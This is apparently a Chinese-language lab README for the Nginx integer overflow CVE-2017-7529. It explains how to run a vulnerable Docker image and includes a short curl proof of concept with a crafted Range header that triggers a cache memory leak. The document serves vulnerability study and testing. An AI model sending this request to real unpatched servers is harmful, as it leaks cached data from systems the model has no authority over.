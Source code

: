 ## Nginx整数溢出漏洞 CVE-2017-7529

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1. 访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：

```
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
```
看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2. 请求时设置 range 如下：

```
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
```

看到结果：

![](./poc.png)

### 参考链接

* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
